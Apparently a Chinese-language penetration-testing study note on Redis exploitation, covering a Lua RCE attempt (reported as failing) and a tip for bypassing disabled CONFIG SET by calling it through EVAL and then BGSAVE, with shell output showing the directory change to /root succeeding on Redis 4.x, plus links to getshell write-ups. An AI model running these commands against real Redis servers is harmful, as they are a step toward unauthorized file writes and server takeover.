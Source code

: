 ## Lua RCE

原理：

https://www.anquanke.com/post/id/151203/

exp：

https://github.com/QAX-A-Team/redis_lua_exploit/

docker测试，redis版本4.0.14，修改redis_lua.py中的ip和port之后运行，报错：

https://github.com/QAX-A-Team/redis_lua_exploit/issues/1

尚未解决

## Tips

参考

https://ricterz.me/posts/2019-07-08-two-tricks-of-redis-exploitation.txt

> If target redis disabled `CONFIG SET`, `SAVE` commands, try to use `EVAL "return redis.call('config', 'set', 'dir', '/root')"`, `BGSAVE`, it only works on Redis 4.x. 
> On Redis 5.x, CONFIG command is a "no-script" command, which means you cannot invoke this command in Redis lua.

其中eval的格式为

```shell
127.0.0.1:6379> eval "要执行的lua命令" key的个数 [KEYS[1]...] [AVRG[1]...]
例子
127.0.0.1:6379> eval "return redis.call('SET',KEYS[1],ARGV[1])" 1 foo bar
OK
127.0.0.1:6379> eval "return redis.call('SET','name','gulugulu')" #没有写key个数，程序报错
(error) ERR wrong number of arguments for 'eval' command
127.0.0.1:6379> eval "return redis.call('SET','name','gulugulu')" 0
OK
```
笔者尝试redis 4.0.9和redis 4.0.14两个版本均提示成功，

```shell
127.0.0.1:6379> EVAL "return redis.call('config', 'set', 'dir', '/root')" 0
OK
127.0.0.1:6379> BGSAVE
Background saving started
```

## 参考

- https://paper.seebug.org/1169/
- https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf
- https://blog.szfszf.top/article/6/
- https://www.onebug.org/websafe/98675.html
- https://lorexxar.cn/2016/12/03/redis-getshell/
- https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/
- https://saucer-man.com/information_security/283.html
- https://github.com/vulhub/redis-rogue-getshell
- https://paper.seebug.org/975/
- https://ricterz.me/posts/2019-07-08-two-tricks-of-redis-exploitation.txt
- https://www.k0rz3n.com/2019/07/29/%E5%AF%B9%E4%B8%80%E6%AC%A1%20redis%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99%E5%85%A5%E6%94%BB%E5%87%BB%E7%9A%84%E5%88%86%E6%9E%90%E4%BB%A5%E5%8F%8A%20redis%204.x%20RCE%20%E5%AD%A6%E4%B9%A0/#4-%E8%A1%A5%E5%85%85